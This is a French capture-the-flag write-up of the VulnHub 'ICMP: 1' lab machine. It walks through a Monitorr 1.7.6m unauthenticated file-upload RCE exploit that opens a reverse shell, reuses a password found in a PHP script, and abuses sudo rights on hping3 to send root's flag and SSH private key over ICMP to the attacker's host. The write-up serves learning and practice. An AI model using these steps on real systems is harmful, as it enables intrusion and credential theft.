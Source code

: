 # Solution du CTF ICMP de VulnHub

Proposé par foxlox, [ICMP: 1](https://vulnhub.com/entry/icmp-1,633/) est une box affichée comme facile. D'autant plus si on a de bonnes connaissances en réseau :)

```
Nmap scan report for 192.168.56.44
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://192.168.56.44/mon/
|_http-server-header: Apache/2.4.38 (Debian)
```

On a une appli web avec une signature qui donne son nom ainsi que son numro de version : Monitorr 1.7.6m, la release date de juillet 2018 ([Release Master: 1.7.6m · Monitorr/Monitorr · GitHub](https://github.com/Monitorr/Monitorr/releases/tag/1.7.6m))

Une recherche sur exploit-db remonte deux exploits :

* [Monitorr 1.7.6m - Authorization Bypass - PHP webapps Exploit](https://www.exploit-db.com/exploits/48981)

* [Monitorr 1.7.6m - Remote Code Execution (Unauthenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/48980)

L'une est un bypass d'autorisation et l'autre une RCE... sans authentification. Bref on peut directement zapper la première.

L'exploit en question se sert d'une faille de type unresitricted upload (à peu de choses près car il fake le content-type et intègre un entête d'image mais *Monitorr* laisse passer l'extension en PHP). Le code uploadé exécute une commande bash de reverse shell, il faut donc mettre un ncat en écoute avant exécution :

```bash
$ python3 monitorr.py http://192.168.56.44/mon 192.168.56.1 9999
A shell script should be uploaded. Now we try to execute it
```

Et voilà :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.44.
Ncat: Connection from 192.168.56.44:48580.
bash: cannot set terminal process group (455): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sur le système je remarque un utilisateur nommé *fox* :

`uid=1000(fox) gid=1000(fox) groups=1000(fox)`

```bash
www-data@icmp:/home/fox$ ls -al
total 20
drwxr-xr-x 3 root root 4096 Dec  3  2020 .
drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
-rw-r--r-- 1 fox  fox    33 Dec  3  2020 local.txt
-rw-r--r-- 1 root root   78 Dec  3  2020 reminder
www-data@icmp:/home/fox$ cat local.txt
c9db6c88939a2ae091c431a45fb1e59c
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

Le script *crypt.php* se trouve dans le dossier *devel*. On ne peut pas lister le dossier mais passer à travers (droit exécution). Ca semblait évident :)

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```

Si on exécute le script avec l'interpréteur PHP ça nous donne `daBzh0EX1iJIU`.

Mais c'est bien `BUHNIJMONIBUVCYTTYVGBUHJNI`  qui est accepté comme mot de passe pour l'utilisateur *fox*.

On peut directement se connecter via SSH avec cet utilisateur et constater qu'il peut exécuter deux commandes en tant que root :

```bash
User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3
```

`hping3` ne dispose pas d'option permettant d'exécuter du code mais des options permettent de spécifier la charge à injecter dans le paquet réseau.

On va donc s'envoyer le flag final :

```bash
$ ls -al /root
total 36
drwxr-xr-x  3 root root 4096 Dec  3  2020 .
drwxr-xr-x 18 root root 4096 Dec  3  2020 ..
lrwxrwxrwx  1 root root    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   84 Nov  4  2020 .google_authenticator
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Dec  3  2020 proof.txt
drwxr-xr-x  2 root root 4096 Nov  4  2020 .ssh
-rw-------  1 root root  937 Dec  3  2020 .viminfo
-rw-r--r--  1 root root  209 Dec  3  2020 .wget-hsts
$ sudo /usr/sbin/hping3 --icmp --file /root/proof.txt -d 33 192.168.56.1
HPING 192.168.56.1 (enp0s3 192.168.56.1): icmp mode set, 28 headers + 33 data bytes
[main] memlockall(): Operation not supported
Warning: can't disable memory paging!
len=61 ip=192.168.56.1 ttl=64 id=185 icmp_seq=0 rtt=8.3 ms
```

On aura bien sûr mis un tshark à l'écoute :

```bash
$ sudo tshark -x -i vboxnet0 icmp
Running as user "root" and group "root". This could be dangerous.
Capturing on 'vboxnet0'
 ** (tshark:15465) 21:43:04.226969 [Main MESSAGE] -- Capture started.
 ** (tshark:15465) 21:43:04.227064 [Main MESSAGE] -- File: "/tmp/wireshark_vboxnet0QMF5U1.pcapng"
0000  0a 00 27 00 00 00 08 00 27 bb c6 71 08 00 45 00   ..'.....'..q..E.
0010  00 3d 65 ac 00 00 40 01 23 96 c0 a8 38 2c c0 a8   .=e...@.#...8,..
0020  38 01 08 00 04 00 6f 03 00 00 39 33 37 37 65 37   8.....o...9377e7
0030  37 33 38 34 36 61 65 61 62 62 35 31 62 33 37 31   73846aeabb51b371
0040  35 35 65 31 35 63 66 36 33 38 0a                  55e15cf638.
```

On peut aussi ne récupérer que le texte via la commande :

```bash
sudo tshark -w- -i vboxnet0 icmp
```

On peut modifier la commande hping pour envoyer la clé privée SSH de l'utilisateur root. Il faut la recoller car elle parvient en deux paquets mais c'est suffisant pour avoir un shell.

```bash
$ ssh -i root.key root@192.168.56.44
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@icmp:~# cat proof.txt 
9377e773846aeabb51b37155e15cf638
```

Ce fut rapide mais pas inintéressant :)

*Publié le 4 novembre 2022*
